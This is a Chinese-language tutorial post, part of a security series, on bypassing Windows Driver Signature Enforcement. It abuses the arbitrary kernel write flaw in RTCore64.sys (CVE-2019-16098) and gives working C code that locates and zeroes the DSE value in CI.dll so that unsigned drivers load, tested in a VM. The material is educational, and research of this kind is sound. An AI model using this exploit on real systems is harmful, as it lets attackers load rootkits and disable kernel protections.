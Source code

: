 # 【第 22 話】攻擊數位簽章機制

## 文章大綱
在[【第 21 話】驅動程式數位簽章](/asset/第%2021%20話)我們認識了數位簽章，並且用 WinDbg 竄改 DSE，載入未簽章的驅動程式。

這篇要結合[【第 14 話】CVE-2019-16098 研究－任意讀寫虛擬記憶體](/asset/第%2014%20話) RTCore64.sys 的任意讀寫漏洞，透過有漏洞的驅動程式竄改 DSE，藉此載入未簽章的驅動程式。

## 實作步驟
原理的部分在[【第 21 話】驅動程式數位簽章](/asset/第%2021%20話)有介紹過，這篇會注重在實作的流程。

1. 檢查版本
2. 找到 CI.dll 起始位址
3. 用特徵找到 DSE 的位址
4. 竄改 DSE

### 1. 檢查版本
在 Windows 8 之前，DSE 的位置在 ntoskrnl.exe；在 Windows 8 之後，DSE 的位置在 CI.dll。

所以第一步驟很簡單，用 [NtCurrentTeb](https://learn.microsoft.com/en-us/windows/win32/api/winnt/nf-winnt-ntcurrentteb) 取得 `OSBuildNumber` 確認版本號。

我們的環境是 Windows 10 1709，所以 DSE 在 CI.dll 中，以下講解 CI.dll 的部分，但其實找 ntoskrnl.exe 的方式也差不多。

### 2. 找到 CI.dll 起始位址
因為下一步準備要在 CI.dll 中找到 DSE，所以要先取得 CI.dll 的起始位址。跟 ntoskrnl.exe 一樣，雖然副檔名都不是 .sys，但也是驅動程式。用 DriverView 可以觀察 CI.dll 的資訊。

![](DriverView.png)

取得 CI.dll 起始位址也很簡單，首先用 [NtQuerySystemInformation](https://learn.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntquerysysteminformation) 取得列舉所有 Module，然後比對是不是目標 Module Name，藉此取得起始位址。

### 3. 用特徵找到 DSE 的位址
在 CI.dll 中找 DSE 的過程偏繁瑣，但概念很簡單，就是找特徵，大致步驟如下。

1. Parse PE 結構
2. 找到 `CiInitialize` 的位置
3. 根據不同版本找不同的特徵來定位 DSE 的位置


### 4. 竄改 DSE
找到 DSE 後，重要的最後一步是利用漏洞竄改 DSE。這篇利用的是在[【第 14 話】CVE-2019-16098 研究－任意讀寫虛擬記憶體](/asset/第%2014%20話)講解過的 RTCore64.sys，其中的任意讀寫的漏洞可以幫我們修改 Kernel 的記憶體。這個技巧也跟[【第 20 話】BYOVD 攻擊](/asset/第%2020%20話)中介紹的 BlackByte 相似。


## 寫程式
程式主要參考 [hfiref0x/DSEFix](https://github.com/hfiref0x/DSEFix)，我新增了竄改 DSE 的部分還有加一些中文註解。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/AbuseDSE)。

### 取得 DSE 位址

```c
// 1. 檢查版本，Windows 8 build 9200  以後 DSE 在 CI.dll，之前則是在 ntoskrnl.exe
if (NtCurrentPeb()->OSBuildNumber >= 9200)
{
    // 2. 取得 CI.dll 的起始位址
    ULONG_PTR CiDllBase;
    Status = FindKernelModule(CiDll, &CiDllBase);
    if (!NT_SUCCESS(Status))
        goto Exit;

    // 3. 在 CI.dll 中用特徵找到 DSE 的位址
    ULONG_PTR gCiOptionsAddress;
    const LONG Rel = QueryCiOptions(MappedBase, CiDllBase, &gCiOptionsAddress);
    if (Rel != 0)
    {
        *CiOptionsAddress = reinterpret_cast<PVOID>(gCiOptionsAddress);
        Status = STATUS_SUCCESS;
    }
    else
    {
        Status = STATUS_NOT_FOUND;
    }
}
```

### 攻擊 RTCore64.sys 並竄改 DSE
```c
struct RTCORE64_MEMORY
{
    BYTE Pad0[8];
    DWORD64 Address;
    BYTE Pad1[8];
    DWORD ReadSize;
    DWORD Value;
    BYTE Pad3[16];
};

void WriteMemoryPrimitive(HANDLE Device, DWORD Size, DWORD64 Address, DWORD Value)
{
    RTCORE64_MEMORY MemoryRead {};
    MemoryRead.Address = Address;
    MemoryRead.ReadSize = Size;
    MemoryRead.Value = Value;

    // 觸發 RTCore64.sys 的任意寫漏洞
    DWORD BytesReturned;
    DeviceIoControl(Device, 0x8000204c, &MemoryRead, sizeof(MemoryRead), &MemoryRead, sizeof(MemoryRead), &BytesReturned,
                    nullptr);
}

int main(int argc, char* argv[])
{
    // 取得 Device Handle
    HANDLE hDevice = CreateFile(L"\\\\.\\RTCore64", GENERIC_READ | GENERIC_WRITE, 0, nullptr, OPEN_EXISTING, 0, nullptr);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        printf("Get Driver Handle Error with Win32 error code: %x\n", GetLastError());
        return 1;
    }

    // 取得 DSE 的位址
    PVOID DSE;
    NTSTATUS Status = AnalyzeCi(&DSE);

    // 4. 竄改 DSE 的值成 0
    WriteMemoryPrimitive(hDevice, 1, (DWORD64)DSE, 0);

    return 0;
}
```

## 測試
1. 在 VM 中載入 [RTCore64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2019-16098/bin/RTCore64.sys)
2. 嘗試載入未簽章的 [AbuseEprocessTokenDrv.sys](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseEprocessToken/bin/AbuseEprocessTokenDrv.sys)，會發現驅動程式無法載入
3. 執行 [AbuseDSE.exe](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseDSE/bin/AbuseDSE.exe) 之後，再嘗試一次就可以成功載入未簽章的驅動程式。


## 參考資料
- [hfiref0x/DSEFix](https://github.com/hfiref0x/DSEFix)
- [Ring0 Rootkit－在 Windows Kernel 與病毒共存](https://hitcon.org/2022/agenda/117f12aa-6166-4083-b317-8b994dbf7a96)